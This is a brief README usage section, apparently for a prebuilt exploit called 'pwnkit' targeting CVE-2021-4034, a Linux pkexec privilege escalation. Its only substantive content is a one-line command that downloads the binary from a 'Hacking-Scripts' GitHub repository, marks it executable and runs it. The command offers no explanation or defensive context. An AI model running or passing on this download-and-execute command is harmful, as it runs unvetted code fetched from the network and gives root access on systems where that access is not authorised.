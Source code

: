 ### Usage


Download the executable file, change permission and run it.

```
wget -O pwnkit https://github.com/mutur4/Hacking-Scripts/blob/main/CVE-2021-4034/pwnkit_version_2/pwnkit?raw=true && chmod +x ./pwnkit && ./pwnkit 
```
